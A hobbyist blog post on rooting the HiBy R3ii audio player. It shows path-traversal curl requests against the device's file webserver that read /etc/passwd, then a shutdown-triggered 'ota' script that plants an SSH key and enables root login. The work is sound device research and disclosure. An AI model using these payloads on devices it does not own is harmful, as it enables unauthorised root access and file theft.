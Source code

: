 +++
title = "Rooting the HiBy R3ii"
date = 2024-06-15
path = "2024/06/hiby-r3ii-root"
+++

The HiBy R3ii is a "Digital Audio Player" (DAP), basically the modern equivalent of MP3 players from the 00's. Naturally, I wanted to find out how hackable the device is.

![](/2024/06/hiby-main.jpg)

<!-- more -->

We bought this device last week, and as all nerds know, you gotta see how it works from the inside. I've done this kind of thing before with both a GoPro and a 4G Modem [when I built my IRL backpack](/2022/08/irl-backpack/), so I kinda know where to start.

The very first thing I did was look through the settings of the device itself to see how I can interface with it. There's a nice little webserver you can enable that you can use to upload music and other files to the device, as well as download them.

This is accessed by going to "Wireless" -> "Import Music via Wi-Fi".

![](/2024/06/hiby-http.jpg)

However, they don't do any validation on the paths provided to the API, so we can pull any file from the device we want:

```bash
$ curl http://192.168.1.96:4399/download\?path=/etc/passwd
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
ftp:x:83:83:ftp:/home/ftp:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
dyn:x:1000:1000:dyn:/home/dyn:/bin/sh
default:x:1000:1000:Default non-root user:/home/default:/bin/sh
```

Sometimes we may need to pass `--ignore-content-length` to curl in order to download some files, as the webserver incorrectly reports `Content-Length` to be 0 while still providing the data.

We can also get (almost) any directory file list: (some directories refuse to be listed, I am not sure why)

```bash
$ curl http://192.168.1.96:4399/list\?path=/var/log/ | jq
[
  {
    "path": "/var/log/cgic.log",
    "name": "cgic.log",
    "ctime": "1531674272",
    "size": 1712
  },
  {
    "path": "/var/log/thttpd_state",
    "name": "thttpd_state",
    "ctime": "1531674078",
    "size": 0
  },
  {
    "path": "/var/log/udp_state",
    "name": "udp_state",
    "ctime": "1531674078",
    "size": 0
  },
  ...
]
```

We can also upload files, but it looks like this is limited to the SD card.

The webserver is a great starting point and lets us do a lot of things already - it even runs as root! But I wanted to see if I could get an actual root shell to run commands.

I ended up downloading the firmware image from [HiBy's official website](https://store.hiby.com/apps/help-center#hc-r3-ii-firmware-v12-update), which - for whatever reason - is [a Google Drive link](https://drive.google.com/file/d/19SkqeVMVhfPNwhT758ZTrDscv-5-l-Ve/view?usp=sharing). (Later I found that the updater on the device itself **does** fetch the firmware from a non-Google URL, but it's still unclear to me why they are using Google Drive links.)

Inside of the firmware zip we have a number of interesting files, but all we really need is `r3ii.upt`, which is an ISO image that the device uses to install firmware updates. One of the files inside of the ISO is `SYSTEM.UBI`, which is an [UBIFS](https://en.wikipedia.org/wiki/UBIFS) filesystem image containing all the files pushed to the flash.

It would be pretty straight forward to build your own ISO update image and push that to the device, but I didn't feel like doing the work, so instead I looked through the executables on the device.

Extracting the UBIFS image is easy, and can be done through the [ubi_reader](https://github.com/onekey-sec/ubi_reader) tools:

```bash
ubireader_extract_files system.ubifs
```

The main executable binary is a MIPS32 binary located at `/usr/bin/hiby_player`. I put this into Ghidra and started looking for points of interest.

The system uses some internal root paths to point to specific parts of the system:

* `x:\`, `y:\`, `z:\` => `/usr/resource/`: application resources such as UI
* `a:\` => `/mnt/sd_1/`: second SD card - a second SD card slot doesn't exist on this model, but there are other models that do support it
* `b:\` => `/mnt/sd_2/`: third SD card
* `c:\` => `/mnt/udisk_0/`: first mounted external drive (through USB)
* `d:\` => `/mnt/samba/`: network drive
* `e:\` => `/mnt/udisk_1/`: second mounted external drive
* `f:\` => `/mnt/udisk_2/`: third mounted external drive
* `v:\` => `/`: system root

Searching for all paths in the firmware reveals a number of interesting SD card paths:

* `/mnt/sd_0/r3ii.upt`, `a:\update.upt`, and `a:\r3ii.upt`: paths used for updating - you could probably use these to flash a custom firmware to the device, but I have not tried this.
* `/mnt/sd_0/ota`: something labeled as a `test_program`.

The `ota` script is particularly interesting; it's a program on the (first) SD card that gets executed when you shut down the device. We can test this by writing a script with the filename `ota` to the root of the SD card:

```bash
#!/bin/sh
printf "Hello, world!" > /mnt/sd_0/test.txt
```

This file can either be placed on the SD card directly, or uploaded via the webserver:

```bash
curl -F "files[]=@ota" http://192.168.1.96:4399/upload
```

We hold the power button on the device to shut it down, and.. it doesn't actually shut down, the countdown just restarts! This is an interesting but good sign - putting our script here has changed how shutdown behaves.

![](/2024/06/hiby-shutdown.jpg)

If we don't hold it to fully shutdown (happens after restarting the countdown ~2 times) and check the contents of the SD card (which can be done through the webserver as well), we can see that a new file has been created: `test.txt` containing the text `Hello, world!`. Awesome! So we can run arbitrary commands. But under which user is this running? This is easy to test:

```bash
#!/bin/sh
id > /mnt/sd_0/my_id.txt
```

Running this reveals that we are in fact running as root (uid 0, gid 0). So we can run arbitrary commands as root on the device now whenever we want by pressing the shutdown button. But we can do a bit more than this now.

While I was exploring the filesystem of the device, I found that there is an SSH daemon present, which the HiBy team were using themselves during development, as can be seen by the presence of a public key in `/root/authorized_keys`, attributed to `dyn@hb`:

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6NB8XeL+Ay9ySEXg5TNChKS0F0PxH2eXeVcQguEc/yh/SeV+2HLr3spjGlFRm8rfRhgT03GwTbdKrSyumQd/mJ4+gFm7uvaJ9byg7mnIDu0Srxd1UN2TxqQGf0wTI4S78MX96r8LTr5duVKSIVRX/ZHff8nsvH4m9NVowONy4h42jjc60o989Y8YjFY6aiPbrcBA9OSvYsQg+oAnyjnmfu/aEwYdlBpXqAe3RG1JhtM3Zv80V93yF89aiN7D1iN2OlzmbS1PMph/6W7lIIVMvKPqzBgxLeDqZScKkFV31WAUxn0M28KtVn2uqUyBROEjygqrO2v1SOt/vIEv2eWl7 dyn@hb
```

Can we figure out how to start the SSH server with our own public key so we can access it easier? After some trial and error, I came up with the following `ota` script:

```bash
#!/bin/sh

printf "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILk/MLteTsbtxuLmMnF+lbvCBISEyyg4FWjJJgyWvdz2 nimble@nimblepad\n" > /root/.ssh/authorized_keys

chmod 0750 /root
chmod 0700 /root/.ssh
chmod 0600 /root/.ssh/authorized_keys
chown root:root /root
chown root:root /root/.ssh
chown root:root /root/.ssh/authorized_keys

printf "AuthorizedKeysFile .ssh/authorized_keys
UsePrivilegeSeparation no
PasswordAuthentication no
PermitEmptyPasswords no
PermitRootLogin yes
Subsystem       sftp    /usr/libexec/sftp-server\n" > /etc/ssh/sshd_config

mkdir /var/empty
chown root:wheel /var/empty
chmod 555 /var/empty

killall -9 sshd
/bin/sshd -E /var/log/sshd.log &
```

This does a number of things:
* Modifies `authorized_keys` to add my ed25519 public key. Note that RSA keys also work, but they may require passing `-o 'PubkeyAcceptedKeyTypes +ssh-rsa'` to `ssh` when connecting.
* Sets appropriate permissions for the `/root` folder and the relevant SSH paths, as these are not already set correctly.
* Creates `/var/empty` and gives it the proper permissions, as the SSH server requires this.
* Writes a custom `sshd_config` that permits root login.
* Finally, kills any existing instance of `sshd` before starting its own `sshd` with logging enabled - if something goes wrong, we can pull the logs using the webserver.

After pushing the script and holding the shutdown button until the timer restarts, we should now have a working SSH server that we can connect to! I can now simply run `ssh root@192.168.1.96` and be presented with a root shell on the device.

To conclude, you can probably automate this by writing a custom firmware and flashing that to the device. However, I particularly like this method where all it takes to get a root shell is 1 file on the SD card and holding the power button for a few seconds, all without flashing the entire device.
